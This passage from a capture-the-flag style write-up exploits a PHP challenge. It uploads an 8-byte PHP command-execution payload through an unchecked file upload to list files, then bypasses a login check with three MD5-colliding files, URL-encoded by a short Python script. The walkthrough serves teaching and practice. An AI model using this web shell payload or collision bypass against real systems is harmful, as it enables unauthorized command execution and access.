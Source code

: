 ```php
        }
    }
}
?>
```
The system deletes any previous uploaded file before storing the file we're currently uploading. As we can see, no extension nor content check is performed during the upload phase, so we can upload any file type we want; however, we have an annoying restriction on the file size, which limit is 8 bytes, not really enough for an exploit, but enough to launch a command on the system:

```php
<?=`ls` // 7 characters
```
This will allow a black-box user to discover the content of the hidden file:
`/myuploader_priv/files/887beed152a3e8f946857bade267bb19d159ef59.txt`. This will take us to the next step of our analysis, the file `/d5fa314e8577e3a7b8534a014b4dcb221de823ad/index.php`.

The interesting part of the `index.php` resides in its authentication logic:

```php
<?php
if (($username == $password ) or ($username == $code)  or ($password == $code)) {echo 'Your input can not be the same.';}
else if ((md5($username) === md5($password) ) and (md5($password) === md5($code)) ) {
            echo "Well done!";
            $_SESSION["secret"] = '133720';
            header('Location: admin.php');  
```
Now we know that, in order to successfully login, we need to find 3 md5 collisions. This process may take some times to complete, however, we can get a big help from the great work of [Marc Stevens](https://marc-stevens.nl/research/) about hash collision attacks. A project on Github of *thereal1024*, based on his work, can be very helpful for our needs. [md5-collision](https://github.com/thereal1024/python-md5-collision)

If you're not really interested to have this tool among your own toolset, I uploaded three files ready to use [here](md5coll/f123.tar). Those three files are different, but their md5 hashes are the same. To prove that, it's enough to run:

```bash
$ md5sum f*
280329d5f2d5dca79041a4a9d50c2bff *f1
280329d5f2d5dca79041a4a9d50c2bff *f2
280329d5f2d5dca79041a4a9d50c2bff *f3
```

Now, in order to successfully send the entire content of the files without any modification, we will need to URL encode their content.

There are multiple tools that can URLencode a file, but I preferred to code this little python code:

```py
#!/usr/bin/python3
import sys
import urllib.parse

if len(sys.argv) < 1:
    print("[-] Missing file name")
else:
    try:    
        with  open(sys.argv[1],'rb') as f:
            contents = f.read()
            url = urllib.parse.quote(contents)
            print("[+] Urlencoded file:")
            print(url)
    except Exception as e:
        print("[-] Could not open file")
        print(e)
```